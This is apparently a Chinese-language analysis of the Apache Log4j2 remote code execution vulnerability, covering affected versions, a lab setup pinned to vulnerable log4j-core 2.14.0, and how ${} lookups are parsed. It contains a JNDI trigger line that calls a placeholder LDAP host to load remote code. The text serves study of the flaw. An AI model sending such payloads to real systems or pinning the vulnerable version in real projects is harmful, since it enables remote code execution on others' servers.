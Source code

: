 # 漏洞简介

**Apache Log4j2**是一个基于Java的日志记录工具。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

漏洞适用版本为2.0 <= Apache log4j2 <= 2.14.1，只需检测Java应用是否引入 log4j-api , log4j-core 两个jar。若存在应用使用，极大可能会受到影响

# 环境搭建

直接创建Maven项目导入log4j2的依赖

```
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.0</version>
    </dependency>
</dependencies>
```

# 漏洞原理

 Log4j2 中的日志等级分别为: ALL < DEBUG < INFO < WARN < ERROR < FATAL < OFF

只要使用了org/apache/logging/log4j/spi/AbstractLogger.java log进行记录，且log等级为可记录等级即可触发次漏洞

一旦在log字符串中检测到${}，就会解析其中的字符串尝试使用lookup查询，因此只要能控制log参数内容，就有机会实现漏洞利用

大致的漏洞代码

```
private static final Logger logger = LogManager.getLogger();
public static void main(String[] args) {
  logger.error("${jndi:ldap://ip:1389/#Exploit}");
}
```

# 漏洞分析

漏洞入口点:AbstractLogger.class的`logIfEnabled`方法

![image-20220222200220983](images/1.png)
